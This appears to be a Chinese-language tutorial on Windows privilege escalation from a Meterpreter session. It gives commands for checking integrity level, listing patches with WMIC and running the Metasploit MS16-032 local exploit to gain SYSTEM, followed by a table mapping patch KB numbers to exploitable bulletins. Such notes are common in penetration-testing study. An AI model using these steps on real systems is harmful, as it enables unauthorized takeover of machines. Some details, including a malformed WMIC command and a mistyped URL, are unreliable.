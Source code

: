 在目标机Shell中（Windows）：

```bash
whoami /groups
```

看到最后一个组为：Mandatory Label\Medium Mandatory Level，提权目标为Mandatory Label\High Mandatory Level。

尝试自动提权（一般不会成功）：

```
getsystem
```

### WMIC法

查看系统打的补丁。法一：在目标机Shell中输入systeminfo；法二：查询C:\Windows\留下的补丁号.log。法三：利用WMIC：

```
Wmic qfe get Caption.Description.HotFixID.InstalledOn
```

想办法找到没有补丁编号的Exp提权，推荐网站：http://www.securityfocus.comd/bid和http://www.exploit-db.com。

这里使用没有安装补丁的漏洞：MS16-032(KB3139914)，进行提权：

```
background #从meterpreter切换回msfconsole
search ms16_032
use windows/local/ms16_032_secondary_logon_handle_privesc
set session 1
run
```

在Meterpreter Shell中，System权限：

```
getuid
```

常见系统补丁号：

| Windows 2003 |                            | Windows 2008 |                             | Windows 2012 |                             |
| ------------ | -------------------------- | ------------ | --------------------------- | ------------ | --------------------------- |
| KB2360937    | MS10-084                   | KB3139914    | MS16-032                    | KB3139914    | MS16-032                    |
| KB2478960    | MS11-014                   | KB3124280    | MS16-016                    | KB3124280    | MS16-016                    |
| KB2507938    | MS11-056                   | KB3134228    | MS16-014                    | KB3134228    | MS16-014                    |
| KB2566454    | MS11-062                   | KB3079904    | MS15-097                    | KB3079904    | MS15-097                    |
| KB2646524    | MS12-003                   | KB3077657    | MS15-077                    | KB3077657    | MS15-077                    |
| KB2645640    | MS12-009                   | KB3045171    | MS15-051                    | KB3045171    | MS15-051                    |
| KB2641653    | MS12-018                   | KB3000061    | MS14-058                    | KB3000061    | MS14-058                    |
| KB944653     | MS07-067                   | KB2829361    | MS13-046                    | KB2829361    | MS13-046                    |
| KB952004     | MS09-012 PR                | KB2850851    | MS13-053EPATHOBJ 0day  限32位 | KB2850851    | MS13-053EPATHOBJ 0day  限32位 |
| KB971657     | MS09-041                   | KB2707511    | MS12-042 sysret -pid        | KB2707511    | MS12-042 sysret -pid        |
| KB2620712    | MS11-097                   | KB2124261    | KB2271195  MS10-065 IIS7    | KB2124261    | KB2271195  MS10-065 IIS7    |
| KB2393802    | MS11-011                   | KB970483     | MS09-020IIS6                | KB970483     | MS09-020IIS6                |
| KB942831     | MS08-005                   |              |                             |              |                             |
| KB2503665    | MS11-046                   |              |                             |              |                             |
| KB2592799    | MS11-080                   |              |                             |              |                             |
| KB956572     | MS09-012烤肉                 |              |                             |              |                             |
